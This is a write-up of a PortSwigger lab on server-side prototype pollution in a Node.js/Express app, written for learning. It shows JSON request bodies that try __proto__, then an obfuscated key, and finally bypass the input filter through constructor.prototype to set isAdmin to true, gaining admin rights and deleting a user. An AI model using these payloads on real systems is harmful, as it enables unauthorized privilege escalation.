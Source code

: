 # Bypassing flawed input filters for server-side prototype pollution | Feb 22, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution), you'll learn: Bypassing flawed input filters for server-side prototype pollution! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

> Note:
>  
> When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181758.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181813.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181821.png)

In here, we can update our billing and delivery address.

Let's try to update it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181851.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181855.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222181915.png)

When we clicked the "Submit" button, it'll send a POST request to `/my-account/change-address`, with parameter `address_line_1`, `address_line_2`, `city`, `postcode`, `country`, `sessionId`.

**If there's no error, the response will return a JSON data:**
```json
{
    "username": "wiener",
    "firstname": "Peter",
    "lastname": "Wiener",
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "isAdmin": false
}
```

### Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`

**Now, we can try to add arbitrary properties to the global `Object.prototype` via prototype pollution:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "__proto__": {
        "json spaces": 1
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183017.png)

However, it seems like we didn't polluted an arbitrary property?

Now, websites often attempt to prevent or patch prototype pollution vulnerabilities by filtering suspicious keys like `__proto__`. This key sanitization approach is not a robust long-term solution as there are a number of ways it can potentially be bypassed. For example, an attacker can:

- Obfuscate the prohibited keywords so they're missed during the sanitization. For more information, see [Bypassing flawed key sanitization](https://portswigger.net/web-security/prototype-pollution/client-side#bypassing-flawed-key-sanitization).
- Access the prototype via the constructor property instead of `__proto__`. For more information, see [Prototype pollution via the constructor](https://portswigger.net/web-security/prototype-pollution/client-side#prototype-pollution-via-the-constructor)

Node applications can also delete or disable `__proto__` altogether using the command-line flags `--disable-proto=delete` or `--disable-proto=throw` respectively. However, this can also be bypassed by using the constructor technique.

**Armed with above information, we can try to pollute the global `Object.prototype` to add arbitrary properties by obfuscating the `__proto__` keyword:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "__pro__proto__to__": {
        "foo": "bar"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222182729.png)

Still nope.

Maybe the web application delete or disable `__proto__`...

**However, we can still bypass that via `constructor`.**

**In client-side prototype pollution, we can use the folllowing `constructor` to pollute the global `Object.prototype` to add arbitrary properties:**
```js
myObject.constructor.prototype
```

**We can also do that in server-side one:**
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "constructor": {
        "prototype": {
            "json spaces": 1
        }
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183253.png)

Nice! We've successfully identify that the web application is indeed vulnerable to server-side prototype pollution!

### Identify a gadget property that you can use to escalate your privileges

**In the response result, we see this:**
```json
{
    "username": "wiener",
    "firstname": "Peter",
    "lastname": "Wiener",
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "isAdmin": false
}
```

The `isAdmin` property is very interesting to us!

***What if we can leverage server-side prototype pollution to set that property's value to `true`?***
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "9zO14DRBcrJYKDNyCiBtv9R7Gkf04LMO",
    "constructor": {
        "prototype": {
            "isAdmin": true
        }
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183505.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183514.png)

Nice! We now became an administrator!

Let's go to the admin panel and delete user `carlos`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183547.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Prototype-Pollution/Prototype-8/images/Pasted%20image%2020230222183557.png)

# What we've learned:

1. Bypassing flawed input filters for server-side prototype pollution